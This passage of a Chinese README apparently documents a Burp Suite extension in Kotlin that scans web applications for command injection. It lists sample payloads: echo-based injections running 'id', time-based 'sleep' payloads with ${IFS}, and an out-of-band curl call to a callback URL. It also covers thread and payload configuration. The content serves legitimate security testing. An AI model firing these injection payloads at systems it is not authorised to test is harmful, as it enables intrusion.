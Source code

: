 ### OOB检测
```kotlin
// 示例载荷
"`curl\${IFS}{{interactsh-url}}`"
```
使用Burp Collaborator生成唯一URL，检测服务器是否向该URL发起请求。

### Time-based检测
```kotlin
// 示例载荷 - 2秒延时
"`sleep\${IFS}2`", ";sleep\${IFS}2;"

// 示例载荷 - 3秒延时  
"`sleep\${IFS}3`", ";sleep\${IFS}3;"
```
通过双重确认机制减少误报：先发送2秒延时载荷，如果响应时间异常，再发送3秒延时载荷进行确认。

## ⚙️ 配置说明

### 线程池配置
```kotlin
// 默认50线程并发
private val fuzzingDispatcher = Executors.newFixedThreadPool(50).asCoroutineDispatcher()
```

### 静态资源过滤
扩展会自动跳过以下文件类型的扫描：
```
js, css, png, jpg, gif, ico, pdf, zip, rar, 7z, mp3, mp4, avi, 等...
```

### 载荷定制
在`src/main/kotlin/rce/Payload.kt`中可以自定义攻击载荷：

```kotlin
class Payload {
    val EchoInject = listOf(
        "`id`",
        ";id;",
        // 添加自定义载荷
    )
    
    val OOBInject = listOf(
        "`curl\${IFS}{{interactsh-url}}`",
        // 添加自定义OOB载荷
    )
}
```

## 🔧 开发指南
